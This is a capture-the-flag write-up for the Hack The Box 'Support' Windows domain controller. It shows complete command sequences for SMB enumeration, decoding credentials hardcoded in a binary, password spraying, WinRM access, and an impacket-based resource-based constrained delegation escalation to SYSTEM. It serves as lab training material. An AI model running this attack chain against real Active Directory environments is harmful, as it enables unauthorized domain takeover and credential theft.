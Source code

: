 
---

````markdown
# 🧑‍💻 Hack The Box – Support

## 📌 Overview
- **Machine Name:** Support
- **IP Address(es):** 10.10.11.174
- **Difficulty:** Easy
- **OS:** Windows
- **Tags:** SMB / Active Directory / LDAP / Reverse Engineering / RBCD
- **Date Completed:** 2025.08.29
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -oA nmap/support 10.10.11.174
```
````

```
53/tcp   open  domain?
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 08:08:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Findings:**

* 389/tcp → LDAP
* 139/tcp → SMB (guest access enabled)

### SMB Enumeration

```bash
nxc smb support.htb -u 'a' -p '' --shares
```

```
support-tools   READ
```

```bash
smbclient //support.htb/support-tools -U 'Guest'
```

```
UserInfo.exe.zip
```

* Discovered a readable share with an unusual application: **UserInfo.exe**.

---

## 🔍 Reverse Engineering UserInfo.exe

Decompiling revealed LDAP credentials:

```csharp
public LdapQuery()
{
    string password = Protected.getPassword();
    this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
    this.entry.AuthenticationType = AuthenticationTypes.Secure;
    this.ds = new DirectorySearcher(this.entry);
}
```

The password was obfuscated:

```csharp
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```

### Decoding

```py
import base64

enc = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

cipher = base64.b64decode(enc)
plain = bytes([c ^ key[i % len(key)] ^ 223 for i, c in enumerate(cipher)])

print(plain.decode())
```

Decoded password:

```
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### Credential Validation

```zsh
nxc ldap support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

```
[+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz 
```

* Valid domain credentials obtained.

---

## 🧭 BloodHound

Collected domain data:

```zsh
rusthound-ce -d support.htb -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -o bloodhound --ldap-filter='(objectGuid=*)' -c All
```

* Nothing interesting for `ldap` user.

---

## 🗂️ LDAP Enumeration

Custom LDAP enumeration found a suspicious `info` field:

```json
"ford.victoria": {
  "info": "Ironside47pleasure40Watchful"
}
```

* Initially appeared to be credentials for `ford.victoria`, but login attempts failed.
* Enumerated all domain users and built a wordlist.

---

## 🔑 Exploitation – Foothold

Brute-forced with known password string:

```zsh
nxc smb support.htb -u usernames.txt -p 'Ironside47pleasure40Watchful' --continue-on-success
```

```
[+] support.htb\support:Ironside47pleasure40Watchful
```

### Shell Access

```zsh
evil-winrm -i support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
```

```
*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
c2ee84b4277d7cab7ea5ae7d9bc1d5bc
```

* **Result:** User shell obtained.

---

## 🚀 Privilege Escalation

### BloodHound Enumeration

* `support` user → member of **SHARED SUPPORT ACCOUNTS** group
* This group has **GenericAll** on `DC.support.htb` computer object.

![BloodHound Enumeration](ScreenShots/support-user-bloodhound.png)

### Exploit: Resource-Based Constrained Delegation (RBCD)

1. Add attacker-controlled computer:

```zsh
impacket-addcomputer -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Summer2018!' -dc-host DC.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'
```

2. Configure delegation:

```zsh
impacket-rbcd -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'
```

3. Request TGT as Administrator:

```zsh
getST.py -spn cifs/DC.support.htb -impersonate Administrator support.htb/ATTACKERSYSTEM$:'Summer2018!' -dc-ip DC.support.htb
```

4. Pass-the-ticket with PsExec:

```zsh
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass support.htb/Administrator@DC.support.htb
```

```
C:\Windows\system32> whoami
nt authority\system
```

* **Result:** Full SYSTEM access (Domain Admin).

---

## 🏁 Flags

* **User.txt:** `c2ee84b4277d7cab7ea5ae7d9bc1d5bc`
* **Root.txt:** `ae1605fecb42f57a3d34817e12d24252`

---

## 🧠 Lessons Learned

* **Technical:**

  * Reverse engineering revealed hardcoded service account credentials.
  * LDAP info fields may leak sensitive data (poor OPSEC).
  * RBCD remains a powerful AD privilege escalation vector.

* **Personal:**

  * Always test leaked creds against multiple accounts.
  * Automating LDAP parsing speeds up discovery of hidden values.

* **Reusable Techniques:**

  * Decode obfuscation (base64 + XOR).
  * Use BloodHound to identify misconfigurations.
  * Exploit RBCD for Domain Admin when `GenericAll` on DC computer object.

---

